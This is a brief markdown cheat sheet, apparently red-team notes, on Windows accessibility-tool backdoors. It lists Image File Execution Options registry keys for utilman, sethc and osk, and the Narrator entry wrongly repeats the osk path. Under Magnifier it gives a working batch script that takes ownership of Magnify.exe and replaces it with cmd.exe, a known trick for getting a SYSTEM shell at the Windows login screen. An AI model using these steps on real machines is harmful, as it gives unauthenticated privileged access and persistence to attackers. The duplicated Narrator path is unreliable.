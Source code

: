 # Helpers

## Accessibility Program

### Debugger

```

```

### Utility Manager

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\utilman.exe
```

### Sticky Keys

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe
```

### Accessibility On-Screen Keyboard

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe
```

### Narrator

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe
```

### Magnifier

```batch
REM Quick script to take own, change perm, backup, and replace Magnify.exe with cmd.exe
REM https://fuzzysecurity.com/tutorials/11.html

takeown.exe /f "C:\Windows\System32\Magnify.exe"
icacls.exe "C:\Windows\System32\Magnify.exe" /grant administrators:F
ren "C:\Windows\System32\Magnify.exe" "Magnify_back.exe"
copy "C:\Windows\System32\cmd.exe" "C:\Windows\System32\Magnify.exe"
```

---
## References

### Persistence Info

- [Persistence Info: Image File Execution Options](https://persistence-info.github.io/Data/ifeo.html)